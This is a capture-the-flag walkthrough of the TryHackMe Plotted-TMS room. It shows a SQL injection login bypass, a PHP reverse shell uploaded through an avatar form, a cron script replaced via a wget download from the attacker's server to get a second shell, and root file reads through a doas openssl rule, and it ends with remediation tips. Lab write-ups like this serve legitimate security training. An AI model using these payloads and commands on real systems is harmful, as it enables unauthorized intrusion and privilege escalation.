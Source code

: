 TryHackMe <br>
Plotted-TMS
---

# Reconnaissance/Scanning:
I started off by scanning the network to see which ports were open/services running on the ports.
```
$ nmap -A -O -sC -sV -p- <machine_IP>
```
Scanned for directories with Gobuster

![image](https://github.com/xocybersec/TryHackMe-Walkthroughs/assets/91302698/3f1a50ee-d5d8-4682-a5df-e981b288329b)
 
/passwd looks like a base64 encoded string.

![image](https://github.com/xocybersec/TryHackMe-Walkthroughs/assets/91302698/4e60eed9-4452-441b-b022-2f260e3cb1e2)
 
Decoded reads:

![image](https://github.com/xocybersec/TryHackMe-Walkthroughs/assets/91302698/1c8df490-7d09-433c-a673-4c423e121c13)
 
The */shadow* directory had the same string, lol. <br>
However, in the */admin* directory there was an <b>id_rsa</b> file that I downloaded.

![image](https://github.com/xocybersec/TryHackMe-Walkthroughs/assets/91302698/721dea08-5395-4fb4-a43a-7332e90474bf)
 
Once again, duped.

![image](https://github.com/xocybersec/TryHackMe-Walkthroughs/assets/91302698/26a12cb5-d1be-4093-8a3d-cfb85ac8a58c)
 
Since all that was a bust, I ran a gobuster scan on the port 445:

![image](https://github.com/xocybersec/TryHackMe-Walkthroughs/assets/91302698/b4d5cb0c-443c-4fdd-97a1-a6ae4cd4dfbc)

Visiting the /management directory, I’m brought to a login page.

![image](https://github.com/xocybersec/TryHackMe-Walkthroughs/assets/91302698/0aed8415-c1e5-4ea5-ad22-2917ee1a9d96)

 
Running another gobuster scan on the /management directory:

![image](https://github.com/xocybersec/TryHackMe-Walkthroughs/assets/91302698/3ad85e2b-829f-438e-bfb0-23af5a4039ee)
 
# Vulnerability assessment:
/admin is where I’m redirected after clicking the “login” button on the other page. <br>
/database has an actual sql file I could download! 

![image](https://github.com/xocybersec/TryHackMe-Walkthroughs/assets/91302698/42c23139-b16e-4aeb-b069-e05b951ffbc1)
 
After parsing through it I found some hashed passwords I’ll try to crack.

![image](https://github.com/xocybersec/TryHackMe-Walkthroughs/assets/91302698/e8a60c8c-92b5-4410-a663-664df512202f)
 
I went to crackstation[.]net to crack both passwords.
 
![image](https://github.com/xocybersec/TryHackMe-Walkthroughs/assets/91302698/1f2af8d3-e365-438a-b2ca-3357b129ae24)
![image](https://github.com/xocybersec/TryHackMe-Walkthroughs/assets/91302698/1ac87dcd-ec49-4845-9628-2f9f8929a7db)

Unfortunately, neither worked on the login screen. However, a simple sql injection worked!
```
Username: admin’ OR 1=1 -- -
Password: <can be anything since it’s commented out>
```
![image](https://github.com/xocybersec/TryHackMe-Walkthroughs/assets/91302698/fdd1ea2a-21b3-4e53-af7b-76742eb6662e)
 
Navigating to the Admin drop down menu at the top right corner, I’m taken to the admin profile page  <br>
where I can update the account information and upload an avatar picture. <br> <br>

*Since it’s an upload form, maybe it’s misconfigured and I can upload a reverse shell..*

# Initial foothold:
I uploaded a php reverse shell file as the avatar and after clicking update I got the reverse shell!

![image](https://github.com/xocybersec/TryHackMe-Walkthroughs/assets/91302698/8705046a-87e8-4bb1-8b3a-cd9ab5a41af4)
 
I checked the cronjobs to see if there were any running.

![image](https://github.com/xocybersec/TryHackMe-Walkthroughs/assets/91302698/9f2578b1-4db9-4a82-a508-c99b160a27f0)
 
Looking at that directory it’s owned by this user, so I can write to it and delete items in it.

![image](https://github.com/xocybersec/TryHackMe-Walkthroughs/assets/91302698/979c7511-8b23-43b3-915e-e4bbf9ca0c8e)
 
The script is owned by plot_admin so I can’t write to that. However, I can delete it and upload my own script with that same name.

![image](https://github.com/xocybersec/TryHackMe-Walkthroughs/assets/91302698/cf7305cc-234f-4342-ad00-daba1a0ceae5)
 
After creating my own backup.sh script, hosting a simple python server and grabbing it on the target machine, it was all in place.
```
# I started a python server on my machine
$ python3 -m http.server <PORT>

# then I used wget to grab the script to the target machine
$ wget hxxp://<IP>:<PORT>/path/to/file

# after successfully getting the script change permissions to execute
$ chmod 777 backup.sh
```
Shortly after that I got another reverse shell as plot_admin

![image](https://github.com/xocybersec/TryHackMe-Walkthroughs/assets/91302698/1ead4304-5d26-4071-9bef-4d5d385ccee5)
 
I’ll grab the user flag real quick.

![image](https://github.com/xocybersec/TryHackMe-Walkthroughs/assets/91302698/ae0c9109-7e86-4fd9-ae74-8130d3ec8e69)
 
# Privilege Escalation:
I checked for any files with the SUID bit set to try to escalate my privileges and found a way.
```
$ find / -perm -u=s -type f 2>/dev/null
```
![image](https://github.com/xocybersec/TryHackMe-Walkthroughs/assets/91302698/112552bf-d619-47f0-a172-d2ba5943bb9c)
 
One new binary that popped out to me was doas. I had to look up what that meant because I didn’t see anything on gtfobins about it. <br>

**doas (“dedicated openbsd application subexecutor”) is a program to execute commands as another user.  <br>
The system administrator can configure it to give specified users privileges to execute specified commands.** <br>

Since I had already spent a lot of time trying to figure out how to escalate my privileges and didn’t find a way,  <br>
I uploaded linpeas to the target machine and let that rip.In the results it mentions doas again.  <br>
I learned there’s a doas config file. Now, in that file it’s showing that the user plot_admin  <br>
can run the command openssl as root without a password.

![image](https://github.com/xocybersec/TryHackMe-Walkthroughs/assets/91302698/4f9215c9-d9ab-4b04-8ed1-426623a47eee)

Back to gtfobins I go with the new found information! <br>
I then found out that I can read files using the openssl command. <br>
Since the doas binary has specific permissions as found out earlier, don’t forget to prepend the command with doas.
```
$ doas openssl enc -in /file/to/read
```
![image](https://github.com/xocybersec/TryHackMe-Walkthroughs/assets/91302698/fa57033b-fe25-423f-9afa-cb34e9d837bb)
 
Now I can finally grab the root flag! <br>

# Reporting:
•	Do not have private information available publicly. <br>
•	Enforce proper data sanitization and filter proper expressions/ characters.  <br>
•	Ensure correct permissions are set for users and access to files/binaries on system.  <br>
•	Have an allow list/checker for all upload forms.  <br>



































































